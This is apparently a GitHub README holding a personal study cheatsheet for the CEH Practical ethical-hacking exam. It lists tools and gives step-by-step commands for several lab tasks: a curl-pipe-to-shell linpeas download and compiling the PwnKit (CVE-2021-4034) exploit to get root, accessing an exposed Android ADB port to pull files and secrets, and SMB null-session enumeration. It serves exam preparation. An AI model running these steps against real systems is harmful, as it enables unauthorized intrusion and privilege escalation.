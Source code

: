 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes

Exam RoadMap
1,2,8,11,12,16,17,18,20,7 (10 marks)  10,19,4,5,15,14,13,6,3,9  

**Priviledge Escalation**
Use LinPeas
1.	login to the ubuntu machine using the credentials given
2.	go to google and type linpeas, go to the github depository and download linpeas.sh (found on the release page) or use the command given 
3.	go to download. Cd Downloads/ then ls to view contents
4.	chmod +x linpeas to be  executable then ls
5.	run the executable by using attacke-1:~/Downloads$ ./linpeas.sh
6.	The other one is you can use curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh, found on github as well
7.	search for CVE-2021-4034 on mozilla the Cd Downloads/
8.	git clone https://github.com/arthepsy/CVE-2021-4034.git
9.	cd CVE-2021-4034
10.	type command "make"
11.	then type "./exploit" boom we are root
12. Alternative2: you can copy the cve-2021-4034-poc.c from Downlods to /tmp then CD /tmp
13. to compile you can use gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
14. then ./cve-2021-4034-poc and press enter you should be root.


**ADB Android Hacking** 
Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder
1.	Scan adb port: nmap ip -sV -p 5555
2.	Connect adb: adb connect IP:5555
3.	Access mobile device: adb shell
4.	Elevate privilege using: sudo -i (if it is possile)
5.	pwd --> ls --> cd sdcard/Notifications/Scan --> ls --> cat secret.txt (If you can't find, check in others folders)
6.	Download files: adb pull /sdcard/Notifications/Scan Do it in another shell, without adb connection!
7.	We've three elf files, now we need to calculate entropy for each of them using this command: ent file.elf
8.	After selecting file.elf with highest entropy, we need to calculate hash of SHA 384: sha384sum file.elf and consider only the last 4 digits of the hash result.

SMB Connection
1. smbclient -L <TARGET_IP> -N
2. smbclient -L <TARGET_IP> -U <USER>
3. smbclient //<TARGET_IP>/<USER> -U <USER>
4. smbclient //<TARGET_IP>/admin -U admin
5. smbclient //<TARGET_IP>/public -N #NULL Session
## SMBCLIENT
1. smbclient //<TARGET_IP>/share_name
2. help
3. ls
4. get <filename>


